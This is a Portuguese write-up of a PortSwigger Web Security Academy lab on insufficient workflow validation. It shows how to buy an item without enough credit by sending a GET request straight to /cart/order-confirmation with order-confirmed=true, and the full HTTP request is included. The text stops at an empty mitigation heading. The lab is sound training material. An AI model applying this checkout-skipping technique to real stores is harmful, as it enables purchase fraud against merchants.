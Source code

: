 

## **• Insufficient workflow validation.**

O objetivo desse laboratório é comprar um produto chamado **"Lightweight "l33t" Leather Jacket"** que custa *$1337.00* porém o usuário não possui saldo suficiente para realizar a compra, então temos que conseguir realizar a compra mesmo sem ter saldo suficiente.

Para isso vamos logar com o usuário `wiener` e comprar qualquer produto que possamos comprar com os créditos disponíveis.

Ao comprar o produto, podemos ver através do `Burp Suite` a requisição que foi enviada para o back-end.


**request** | **response** 
:---------: | :------:
![request](validation_request.png) | ![response](validation_response.png)


A requisição para `/cart/checkout` que verifica se o carrinho não está vazio e o usuário tem saldo suficiente para realizar a compra, após isso redireciona para `/cart/order-confirmation?order-confirmed=true` onde a compra é finalizada.

Para fazermos a compra mesmo sem ter saldo suficiente, basta adicionar o produto que queremos comprar no carrinho e reenviar a requisição para `/cart/order-confirmation` com o parâmetro `order-confirmed` igual a `true`.

```http

GET /cart/order-confirmation?order-confirmed=true HTTP/1.1
Host: 0a0b002103b585e4c97b5c82003a0027.web-security-academy.net
Cookie: session=LDg6zSKvA8XzEtS2eJCEIoiNqTsTKdbh
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0a0b002103b585e4c97b5c82003a0027.web-security-academy.net/cart
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```

Após isso a compra é finalizada e o laboratório é concluído.

![concluido](validation_concluido.png)

---

## **• Mitigação.**
